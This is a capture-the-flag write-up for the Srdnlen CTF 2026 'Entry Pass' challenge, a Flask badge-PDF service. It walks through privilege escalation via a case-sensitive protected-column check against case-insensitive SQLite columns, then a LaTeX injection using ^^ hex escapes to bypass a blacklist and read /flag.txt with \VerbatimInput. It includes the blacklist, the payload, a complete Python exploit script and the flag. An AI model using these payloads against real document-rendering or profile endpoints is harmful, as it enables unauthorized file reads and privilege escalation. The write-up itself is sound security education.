

# misc/Entry Pass

**CTF:** Srdnlen CTF 2026 Finals

**Category:** Misc

**Difficulty:** Medium

**Solves:** 6

**Author:** [@uNickz](https://github.com/uNickz) (Nicholas Meli)

---

## Description

> Sardinia Cyber Camp II is here.
> 
> Create your account and print your personal entry pass for the camp.
> 
> Website: [https://instancer.srdnlen.it/challenge/misc-entry-pass](https://instancer.srdnlen.it/challenge/misc-entry-pass)

---

## Overview

The challenge is a small Flask application that lets a registered user build a personal conference badge and download it as a PDF. We get the full source, so the first move is to read it and figure out how a badge is actually produced.

The `/generate` route takes the badge form, validates it, and hands the data to `sandbox.compile_brochure`, which renders a Jinja2 LaTeX template and compiles it with `pdflatex`. User input ends up inside a `.tex` file that the server compiles. That is the attack surface worth chasing: if we can smuggle TeX control sequences into the template, the compiler works for us.

Where does the flag come from? The entrypoint writes it to a file and locks it down to the compiler's user:

```sh
printf '%s\n' "${FLAG}" > /flag.txt
chmod 400 /flag.txt
chown texsandbox:texsandbox /flag.txt
```

So `/flag.txt` is only readable by `texsandbox`, and `pdflatex` runs as `texsandbox`. We never read the file directly. We get the badge compiler to read it for us and typeset its contents into the PDF we download.

Reading the template render tells us how much of the input reaches TeX intact:

```py
_ESCAPE_FIELDS = ("first_name", "last_name", "nickname", "team", "role", "country", "staff_area", "staff_title", "talk_abstract")
_RAW_FIELDS = ("talk_title",)
```

Almost everything is passed through `latex_escape`, which neutralizes backslashes and braces. One field is not: `talk_title` reaches the template raw. That is the only place an injection can live, so the rest of the work is getting a usable payload into `talk_title`.

Two obstacles show up immediately:

- `talk_title` is a speaker-only field. A freshly registered account is a `player`, and `talk_title` never gets validated or rendered for players. We need the `speaker` role first.
- Even for a speaker, `talk_title` is not escaped but it is filtered. `validate_talk_title` blocks literal backslashes, braces, and a blacklist of dangerous TeX primitives, so a naive `\input{/flag.txt}` never makes it through.

The next sections work through each obstacle in order: getting to `speaker`, finding the raw field, and defeating the blacklist.

---

## Step 1: Becoming a speaker

Registration only ever assigns the `player` role:

```py
REGISTERABLE_ROLES = ("player",)

requested_role = request.form.get("role", "player").strip().lower()
role = requested_role if requested_role in REGISTERABLE_ROLES else "player"
```

The profile update endpoint is where the real problem is. It accepts fields through an `account[...]` naming scheme and writes them to the database:

```py
_ACCT_FIELD_RE = re.compile(r"^account\[([A-Za-z_]+)\]$")

def _account_params(form) -> dict:
    return {m.group(1): v for k, v in form.items() if (m := _ACCT_FIELD_RE.match(k))}
```

The parsed keys go straight into `update_profile`, which tries to protect sensitive columns:

```py
PROTECTED_COLUMNS = {"id", "username", "nickname", "password_hash", "role", "created_at"}

def update_profile(uid: int, fields: dict) -> None:
    cols = [k for k in fields if k not in PROTECTED_COLUMNS]
    ...
    assignments = ", ".join(f"{c} = ?" for c in cols)
    ...
    conn.execute(f"UPDATE users SET {assignments} WHERE id = ?;", (*values, uid))
```

The guard is a case-sensitive set membership test, but SQLite column names are case-insensitive. `role` is in the set; `Role` is not. Sending `account[Role]` passes the filter and still updates the real `role` column:

```sql
UPDATE users SET Role = ? WHERE id = ?;
```

The role string itself is never validated against `ACCOUNT_ROLES`, so we can set it to anything. We set it to `speaker`:

```http
POST /profile
Content-Type: application/x-www-form-urlencoded

account[Role]=speaker
```

After this request the account is a speaker, which unlocks the speaker badge form.

---

## Step 2: The unescaped field

Every badge field is rendered into the LaTeX template, but not all of them are treated the same way. The sandbox escapes most fields and leaves one untouched:

```py
_ESCAPE_FIELDS = ("first_name", "last_name", "nickname", "team", "role", "country", "staff_area", "staff_title", "talk_abstract")
_RAW_FIELDS = ("talk_title",)

def render_tex(data: dict) -> str:
    ...
    ctx = {k: latex_escape(data.get(k, "")) for k in _ESCAPE_FIELDS}
    ctx.update({k: data.get(k, "") for k in _RAW_FIELDS})
```

`talk_title` is a speaker-only field, and it is the one field that reaches the compiler without LaTeX escaping. In the template it sits inside a `\textbf{...}` group:

```latex
{\color{sand}\fontsize{9.5}{12}\selectfont \textbf{\VAR{talk_title}}}
```

Instead of escaping, `talk_title` is run through a blacklist:

```py
def validate_talk_title(title: str) -> str:
    title = validate_text(title, "talk title", MAX_TALK_TITLE, required=False)
    if "\\" in title:
        raise ValidationError("talk title: backslash is not allowed")
    if "{" in title or "}" in title:
        raise ValidationError("talk title: braces are not allowed")
    if _TITLE_FORBIDDEN_RE.search(title):
        raise ValidationError("talk title: that reserved word is not allowed here")
    return title
```

So the injected text cannot contain a literal backslash, a literal brace, or any of the reserved words:

```py
_TITLE_FORBIDDEN = (
    "input", "include", "inputiffileexists", "lstinputlisting",
    "verbatiminput", "bverbatiminput", "lverbatiminput",
    "openin", "openout", "newread", "immediate", "special",
    "usepackage", "requirepackage",
    "csname", "endcsname", "expandafter", "scantokens", "noexpand", "catcode",
    "flag",
)
```

A LaTeX command needs a backslash and usually braces, and the filename we want contains `flag`. The blacklist blocks all of them at the byte level.

---

## Step 3: LaTeX injection with `^^` notation

The blacklist only inspects the literal bytes of the submitted string. TeX, on the other hand, builds control sequences and groups during tokenization, and it has a notation that lets you write a character by its code point: `^^` followed by two lowercase hexadecimal digits produces the byte with that value.

This happens inside the TeX engine, after the Python blacklist has already accepted the string. So we can spell out backslashes, braces, and the forbidden words without any of those bytes appearing in the submitted text:

| Source | Byte | Meaning in TeX |
| --- | --- | --- |
| `^^5c` | `0x5C` | `\` |
| `^^7b` | `0x7B` | `{` |
| `^^7d` | `0x7D` | `}` |
| `^^49` | `0x49` | `I` |
| `^^66` | `0x66` | `f` |

The gadget we want is `\VerbatimInput`, from the `fancyvrb` package that the template already loads:

```latex
\usepackage{fancyvrb}
```

`\VerbatimInput{<path>}` reads a file and typesets its contents verbatim. Reading `/flag.txt` is enough: `pdflatex` runs as `texsandbox`, the file is readable by that user, and the default `openin_any = a` setting lets TeX open an absolute path.

The final payload is:

```
^^7d^^5cVerbatim^^49nput^^7b/^^66lag.txt^^7d^^5ctextbf^^7b
```

Dropping it into the template context `\textbf{...}` and decoding the `^^` sequences, the compiler sees:

```latex
\textbf{}\VerbatimInput{/flag.txt}\textbf{}
```

Breaking it down against the surrounding `\textbf{<payload>}`:

- `^^7d` closes the template's `\textbf{` immediately, leaving an empty bold group.
- `^^5cVerbatim^^49nput^^7b/^^66lag.txt^^7d` becomes `\VerbatimInput{/flag.txt}` and dumps the flag into the PDF.
- `^^5ctextbf^^7b` becomes `\textbf{`, which the template's trailing `}` closes, so the document stays balanced and compiles cleanly.

None of the forbidden bytes or words appear in what we submit: there is no `\`, no `{`, no `}`, the substring `input` is broken by `^^49`, and `flag` is broken by `^^66`.

---

## Exploitation

Putting the three steps together:

```py
import io
import re
import requests
from pypdf import PdfReader

BASE_URL = "https://entrypass.challs.srdnlen.it"
FLAG_RE = re.compile(r"srdnlen\{[^}]*\}")
PAYLOAD = r"^^7d^^5cVerbatim^^49nput^^7b/^^66lag.txt^^7d^^5ctextbf^^7b"

sess = requests.Session()
user = "exploit_user"
pw = "exploitpw123"

# 1. Register (always a player)
sess.post(f"{BASE_URL}/register", data={
    "username": user, "first_name": "Ada", "last_name": "Lovelace",
    "password": pw, "confirm": pw,
})

# 2. Privesc to speaker via the case-sensitive column filter
sess.post(f"{BASE_URL}/profile", data={"account[Role]": "speaker"})

# 3. Inject the LaTeX payload through the speaker-only talk_title field
res = sess.post(f"{BASE_URL}/generate", data={
    "first_name": "Ada", "last_name": "Lovelace", "nickname": user,
    "talk_title": PAYLOAD, "talk_abstract": "",
})

reader = PdfReader(io.BytesIO(res.content))
text = "".join(page.extract_text() or "" for page in reader.pages)
print(FLAG_RE.search(text).group())
```

The returned PDF is a badge with `/flag.txt` printed where the talk title should be:



---

## Flag

```
srdnlen{V1p_4cC3sS_Gr4nT3d_bY_4_pDf_Th4T_R34d_1tS_0wN_s3Cr3TS!?_e92f7d592d59a39b}
```
